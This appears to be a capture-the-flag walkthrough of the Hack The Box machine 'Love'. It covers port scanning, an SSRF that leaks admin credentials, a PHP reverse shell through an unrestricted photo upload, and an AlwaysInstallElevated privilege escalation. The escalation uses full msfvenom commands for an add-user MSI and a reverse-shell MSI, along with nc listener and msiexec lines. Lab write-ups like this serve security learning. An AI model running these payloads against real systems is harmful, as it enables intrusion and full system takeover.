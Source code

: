 # Love

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.10.239 -v`

* `staging.love.htb/organizationName=ValentineCorp/`

* Gobuster

![image](https://user-images.githubusercontent.com/12052283/127886977-ba4f12c2-82ff-4b80-9a12-99f6da03adf0.png)


### Open ports

```
Discovered open port 139/tcp on 10.10.10.239
Discovered open port 443/tcp on 10.10.10.239
445/tcp microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
80/tcp Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
Discovered open port 135/tcp on 10.10.10.239
3306/tcp mysql?
5000/tcp  www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Users

```
admin:@LoveIsInTheAir!!!! -> creds of http://love.htb/admin/
Phoebe -> user from Windows Machine
```


## Endpoints

```
http://www.love.htb/home.php
http://staging.love.htb
```


## Vuln

```
Got SSRF in http://staging.love.htb/demo

Unrestricted File Upload while uploading a photo making a php rev shell possible

Abused AlwaysInstallElevated to get root
```

## Getting root

* Got root while abusing `AlwaysInstallElevated`

## Notes

* Found `staging.love.htb/organizationName=ValentineCorp/` in nmap scan. So I edited `/etc/hosts` with `10.10.10.239 love.htb staging.love.htb` and got navigated to `http://staging.love.htb`

![image](https://user-images.githubusercontent.com/12052283/127888286-773176b1-af4e-489a-8fb1-1a0f23e63aa0.png)

* Pressing in `demo` got to a free file scanner so I tried SSRF. Doing `http://localhost:5000` got creds for `http://love.htb/admin/`. Port 5000 because in nmap is saying 403 forbiden so I assumed I could SSRF so the server thinks the requests is internaly made and like that I have permission

![image](https://user-images.githubusercontent.com/12052283/127890660-ab17ab40-2028-454c-aae3-a4929d700f79.png)

* Creating user to get shell using php reverse shell for windows and connected as phoebe

![image](https://user-images.githubusercontent.com/12052283/127893881-931eb776-eba2-4ad5-80c8-f14d822ecefa.png)

* Login with that user while listening on port 9999 using `sudo nc -lvnp 9999`

![image](https://user-images.githubusercontent.com/12052283/127894003-a1d24536-4164-45cc-8d21-750eb4c1612d.png)

* Got shell when login

![image](https://user-images.githubusercontent.com/12052283/127894210-a990a6fc-4c02-45dd-9d2b-cf3797809e3c.png)

* Got creds in C:\xampp\passwords.txt

![image](https://user-images.githubusercontent.com/12052283/127894537-270d6781-2e21-4893-b1bf-121686f7323c.png)

* Got `user.txt` in C:\Users\Phoebe\Desktop\user.txt

* Runned winPEAS and found AlwaysInstallElevated ON

* Running `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` returned `1` meaning users of any privilege can install (execute) *.msi* files as NT AUTHORITY\SYSTEM

* I could create a metasploit payload using `msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi` and then executing that `alwe.msi` on the windows machine and user `rottenadmin` is NT AUTHORITY\SYSTEM , then i only needed to change from user `Phoebe` to user `rottenadmin`

* But the best way to escalate is to create a reverse shell using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_IP LPORT=MY_LISTENING_PORT -f msi -o reverse.msi`, upload `reverse.msi` to the windows machine, start listening on my local machine using `sudo nc -lvnp MY_LISTENING_PORT` and then, inside the windows machine, run `msiexec /quiet /qn /i reverse.msi` to trigger the reverse shell. After that I got root in the reverse shell.

 ![image](https://user-images.githubusercontent.com/12052283/127909554-97ebbdfc-8d22-46b3-9689-dfe9b2f07923.png)


# References

* https://portswigger.net/web-security/ssrf

* https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

* https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated